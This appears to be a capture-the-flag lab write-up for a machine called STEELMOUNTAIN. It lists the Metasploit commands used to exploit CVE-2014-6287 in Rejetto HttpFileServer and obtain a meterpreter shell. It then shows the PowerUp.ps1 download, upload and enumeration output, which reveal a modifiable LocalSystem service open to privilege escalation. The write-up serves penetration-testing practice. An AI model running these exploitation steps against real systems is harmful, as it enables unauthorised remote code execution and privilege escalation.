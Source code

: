The room tells us to use metasploit to perform the exploit though, maybe I will revisit scripting the exploit myself at a later date.

#### Metasploit

Using metasploit to exploit [`CVE2014-6287`](https://www.exploit-db.com/exploits/39161).

```bash
$> sudo msfconsole
msfconsole> search cve:2014-6287
...
0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msfconsole> use 0 
msfconsole> show options
...

msfconsole> set RHOSTS <ip>
msfconsole> set RPORT 8080
msfconsole> exploit

meterpreter> 
```
This gives us a meterpreter shell as bill now.

#### Enumeration

Performing enumeration to find possible privilege esculation attack vectors using [`PowerUp`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```bash
$> wget -c https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
meterpreter> upload /opt/PowerUp.ps1

meterpreter> load powershell
meterpreter> powershell_shell
```

```powershell
PS >. .\PowerUp.ps1
PS > Invoke-AllChecks
...

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```
